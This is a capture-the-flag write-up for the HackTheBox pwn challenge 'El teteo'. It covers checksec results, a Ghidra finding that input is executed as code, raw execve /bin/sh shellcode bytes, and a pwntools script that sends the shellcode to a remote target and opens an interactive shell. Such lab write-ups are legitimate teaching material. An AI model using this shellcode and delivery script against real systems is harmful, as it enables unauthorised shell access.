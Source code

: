 ```yaml
---
title: El teteo
tags:
  - CTF
  - HackTheBox
  - Pwn
---
```

First, I checked the security of the binary with `checksec`:

![](Pasted%20image%2020241023161716.png)

So it has the following protections:

| Protection | Enabled  |                     Usage                     |
| :--------: | :------: | :-------------------------------------------: |
| **Canary** |    ✅     |         Prevents **Buffer Overflows**         |
|   **NX**   |    ❌     |     Disables **code execution** on stack      |
|  **PIE**   |    ✅     | Randomizes the **base address** of the binary |
| **ReLRO**  | **Full** |   Makes some binary sections **read-only**    |

Then I executed the binary:

![](Pasted%20image%2020241023161557.png)

I analyzed the code with Ghidra:

![](Pasted%20image%2020241023161912.png)

Our input is being stored in local_68 and called as a function, so we can use the following payload from [shellstorm.org](https://shell-storm.org/shellcode/files/shellcode-806.html):

`\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05`

And our solver script will look like:

```shell
#!/usr/bin/python3
from pwn import *
import warnings
import os
warnings.filterwarnings('ignore')
context.arch = 'amd64'

fname = './el_teteo' 

LOCAL = False # CHANGE THIS TO True if you want to run it locally

os.system('clear')

if LOCAL:
  print('Running solver locally..\n')
  r    = process(fname)
else:
  IP   = str(sys.argv[1]) if len(sys.argv) >= 2 else '0.0.0.0'
  PORT = int(sys.argv[2]) if len(sys.argv) >= 3 else 1337
  r    = remote(IP, PORT)
  print(f'Running solver remotely at {IP} {PORT}\n')

# Shellcode from https://shell-storm.org/shellcode/files/shellcode-806.html
sc = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"

# Send shellcode
r.sendlineafter('>', sc)

# Get flag
pause(1)

# Interact with the shell
r.interactive()

# Don't know why, but the following doesn't work
#r.sendline('cat flag*')
#print(f'Flag --> {r.recvline_contains(b"HTB").strip().decode()}\n')
```

![](Pasted%20image%2020241023232307.png)